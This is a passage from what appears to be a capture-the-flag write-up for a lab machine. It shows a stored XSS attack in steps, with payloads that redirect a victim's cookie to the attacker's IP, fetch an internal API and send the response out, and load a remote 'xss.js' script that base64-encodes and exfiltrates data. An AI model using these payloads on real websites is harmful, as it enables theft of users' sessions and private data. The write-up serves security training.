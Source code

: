 
We can try to use some `XSS payloads` to test for vulnerabilities.    

```js
<img src=x onerror="location='http://10.10.16.3/'">
```

We get an `output`.  

<br/> 
<img src="/img/BlockBlock_screenshots/Pasted image 20241121002828.png" alt="1" style="width:700px; height:auto;">
<br/>

We can try to fetch the `documnet.cookie` now.   

```js
<img src=x onerror="location='http://10.10.16.3/?c='+document.cookie">
```

But this did not work. The cookie may have the `HTTPOnly` flag set.    

We can try to use another approach.   

```js
 <img src=x onerror="fetch('/api/info').then(r=>r.text()).then(t=>fetch('http://10.10.16.3/log?data='+encodeURIComponent(t),{mode:'no-cors'}))">
```

But still had no luck so tried to make it on 2 steps as maybe the server is blocking our request. First created a malicious `JS` file.    

```js
fetch('/api/info')
    .then(response => response.text())  // Get the response body as text
    .then(text => {
        // Send the base64-encoded response to your server
        fetch('http://10.10.16.3/log?' + btoa(text), { mode: 'no-cors' });
    });
```

I made the server request our file and execute it using this `payload`.    

```js
<img src=1 onerror="var s=document.createElement('script'); s.src='http://10.10.16.3/xss.js'; document.body.appendChild(s);">
```

And we get a `hit`.  

<br/> 
<img src="/img/BlockBlock_screenshots/Pasted image 20241121003557.png" alt="1" style="width:700px; height:auto;">
<br/>
